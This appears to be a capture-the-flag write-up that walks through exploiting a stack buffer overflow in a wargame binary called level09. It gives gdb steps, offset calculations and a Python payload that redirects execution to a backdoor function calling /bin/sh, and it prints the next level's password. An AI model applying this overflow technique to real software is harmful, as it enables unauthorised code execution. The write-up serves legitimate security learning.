


In this level, we have a program that takes a username then a message from user, the main() calls handle_msg() that creates a buffer[140] then handles both inputs in 2 different functions: set_username() and set_msg(), let's start with the first:

set_username(): this function reads 0x80(128) characters from stdin using fgets then appends the first 40 chars to the end of the buffer :

set_msg(): this function reads 0x400(1024) chars from buffer then uses strncpy. The trick here is in the len argument of strncpy because it copies n characters from a temporary buffer to our main buffer[140] where n is the 180th characters in our buffer[140] converted to int :
**strncpy(buff, temp, (long)*(buff + 180))**
as we saw in the set_username that will be in buffer[180] is the last character written in username, so we'll make it \xff so we can copy all 256 from buffer (maximum).

now we'll need to overwrite the return address of handle_msg(since it's the function that declared our buffer) to **secret_backdoor** to call system, we'll get our buffer's and return address from gdb by breaking before set_msg() call and checking rdi and frame

b *0x000055555555491f
r
x $rdi // since our buffer is passed as an argument to set_msg()
**0x7fffffffe4d0** // our buffer address
info frame // to get return address from saved rip
Saved registers:
  rbp at 0x7fffffffe590, rip at **0x7fffffffe598**

if we calculate the difference 0x7fffffffe598-0x7fffffffe4d0 = 200
it means we need to write 199 characters in our buffer followed by the address of secret_backdoor() 0x000055555555488c, let's fill our payload with anything "A"s in this case:

python -c 'print("\xff"*127+"A"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00")' > p, if we run this payload with gdb and check the return address (0x7fffffffe598) after set_msg() is indeed changed to secret_backdoor.
if we continue the program we'll see that we indeed entered to secret_backdoor but our system got called with a bunch of "A"s as argument which is not what we want.

we'll need to pass "/bin/sh" to it instead.
(tip: we'll pad with spaces before and after because they're ignored in commands), our final payload:

python -c 'print("\xff"*127 + " "*100 + "/bin/sh" + " "*93 + "\x8c\x48\x55\x55\x55\x55\x00\x00")' > payload;cat payload - | ./level09

cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
